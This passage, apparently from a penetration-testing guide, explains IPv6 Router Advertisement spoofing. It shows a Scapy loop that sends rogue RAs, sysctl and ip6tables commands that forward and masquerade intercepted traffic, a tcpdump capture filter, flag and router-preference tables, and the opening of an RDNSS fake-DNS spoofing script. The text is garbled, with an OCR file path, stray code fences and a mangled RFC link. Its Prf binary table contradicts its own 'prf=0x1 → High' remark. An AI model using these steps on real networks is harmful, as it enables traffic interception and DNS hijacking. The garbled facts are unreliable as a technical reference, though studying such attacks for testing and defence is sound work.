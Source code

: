 ```
send(ra,iface=args.interface,loop=1,inter=args.interval)
```
```
To actually **forward traffic** after winning the race:

```bash
sudo sysctl -w net.ipv6.conf.all.forwarding=1
sudo ip6tables -A FORWARD -i eth0 -j ACCEPT
sudo ip6tables -t nat -A POSTROUTING -o eth0 -j MASQUERADE
```
```
#### Router Advertisement Flags (M/O) & Default Router Preference (Prf)

| Flag | Meaning | Effect on Client Behaviour |
|------|---------|----------------------------|
| **M (Managed Address Configuration)** | When set to `1` the host MUST use **DHCPv6** to obtain its IPv6 address. | Whole addressing comes from DHCPv6 – perfect for *mitm6* style poisoning. |
| **O (Other Configuration)** | When set to `1` the host should use **DHCPv6** only to obtain *other* information (DNS, NTP, …). | Address still via SLAAC, but DNS can be hijacked with DHCPv6. |
| **M=0 / O=0** | Pure SLAAC network. | Only RA / RDNSS tricks are possible – DHCPv6 won’t be sent by clients. |
| **M=1 / O=1** | Mixed environment. | Both DHCPv6 and SLAAC are used; the surface for spoofing is the largest. |

During a pentest you can simply inspect the legitimate RA once and decide which vector is feasible:

```bash
sudo tcpdump -vvv -i eth0 'icmp6 && ip6[40] == 134'   # capture Router Advertisements
```
```
Look for the `flags [M,O]` field in the dump – no guessing required.

The **Prf** (Router Preference) field inside the RA header controls how attractive your rogue router looks when *multiple* gateways are present:

| Prf value | Binary | Meaning |
|-----------|--------|---------|
| **High**  | `10`   | Clients prefer this router over any *Medium*/*Low* one |
| Medium (default) | `01` | Used by almost every legitimate device |
| Low     | `00` | Chosen only when no better router exists |

When generating the packet with Scapy you can set it through the `prf` parameter as shown above (`prf=0x1` → High).  Combining **High Prf**, a **short interval**, and a **non-zero lifetime** makes your rogue gateway remarkably stable.

---

### RDNSS (DNS) Spoofing via RA

[[https://datatracker.ietf.org/doc/html/rfc8106) allows adding a **Recursive DNS Server (RDNSS)** option inside a RA.  Modern OSes (Win 10 ≥1709, Win 11, macOS Big Sur, Linux systemd-resolved, …|RFC 8106]] automatically trust it:

```python
#!/usr/bin/env python3
from scapy.all import *
import argparse

p = argparse.ArgumentParser()
P = p.add_argument
P('-i','--interface',required=True)
P('--llip',required=True)
P('--dns',required=True,help='Fake DNS IPv6')
P('--lifetime',type=int,default=600)
P('--interval',type=int,default=5)
```